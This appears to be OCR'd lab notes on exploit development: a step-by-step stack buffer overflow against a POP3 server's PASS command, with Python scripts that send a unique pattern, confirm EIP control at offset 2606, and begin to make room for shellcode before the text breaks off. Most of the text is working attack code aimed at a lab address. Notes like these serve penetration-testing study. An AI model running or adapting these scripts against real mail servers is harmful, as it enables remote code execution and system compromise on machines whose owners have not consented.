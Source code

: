 Send a unique string of 2700 bytes then note the 4 bytes that overwrite the EIP

Helpful tool to create unique string
`pattern_create.rb 2700`

then swap out the AAAAs with a unique string

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = UNIQUE_STRING

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

`pattern_offset.rb 39694438`
* will tell offset of 2606

```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * 90

try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
  data = s.recv(1024)
  s.send('PASS ' + buffer + '\r\n')
  print "\nDone!."
except:
  print "Could not connect to POP3!"
```

### Introducing Shellcode

Look at ESP for where the Cs start

350-450 bytes


```python
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)


try:
  print "\nSending evil buffer..."
  s.connect(('192.168.30.35',110))
  data = s.recv(1024)
  s.send('USER username' + '\r\n')
```